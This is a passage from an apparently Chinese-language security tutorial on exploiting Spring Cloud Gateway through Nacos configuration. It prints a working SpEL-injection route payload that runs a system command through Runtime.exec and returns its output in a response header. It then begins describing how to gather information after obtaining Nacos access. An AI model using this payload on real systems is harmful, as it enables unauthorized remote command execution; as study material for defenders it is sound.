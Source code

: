 其中`spring.cloud.nacos.config`下

-   name代表的是要在nacos中创建的配置文件的DataID。
-   file-extension则是nacos中所创建的配置文件的格式。
-   group则代表nacos中配置文件对应的组。
-   而server-addr则是nacos的访问地址

其中发送的添加路由的数据包中的数据段如下：

```plain
{
  "id": "test",
  "filters": [{
    "name": "AddResponseHeader",
    "args": {"name": "Result","value": "#{new java.lang.String(T(org.springframework.util.StreamUtils).copyToByteArray(T(java.lang.Runtime).getRuntime().exec(new String[]{\"id\"}).getInputStream()))}"}
  }],
"uri": "http://example.com",
"order": 0
}
```

先理解一下这段POC的含义：

-   id字段代表的是路由的ID标识
    
-   filters则是Spring Cloud Gateway中路由配置的过滤器：
    
    这里指定了过滤器`AddResponseHeader`，含义为对匹配到的请求的响应包中添加一个自定义的Header，其中名称为 Result，值为该漏洞利用的`SpEL`表达式，执行了命令`id`。
    
    也就是说当一个请求匹配到该路由时，返回包中应该会存在一个Header返回了我们定义的键值，利用成功的话会得到：`result: uid=0(root) gid=0（... ...）`
    

但POC中并未定义路由的匹配规则，因为开启actuator/gateway的话只需要刷新一下路由然后直接查看路由配置就可以得到命令执行的回显了

**2、利用方式**

如果拿到了一个Nacos权限，如何进行有效的信息收集以及利用？

以上面搭建的环境为例，我们搭建了一个Nacos，一个Spring Cloud Gateway网关，以及一个微服务Service-provider，

进入到nacos管理页面，翻阅配置时候发现有Spring Cloud Gateway相关的配置，那么第一步可以先查看该配置项都有哪些服务器在监听？监听的服务器基本可以肯定就是运行了Spring Cloud Gateway的服务器，可以在配置文件的更多中点击**监听查询**：

[![](assets/1700442594-42d979044ef5e67c2a10b39432051a2e.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231118155514-ce96b76c-85e7-1.png)
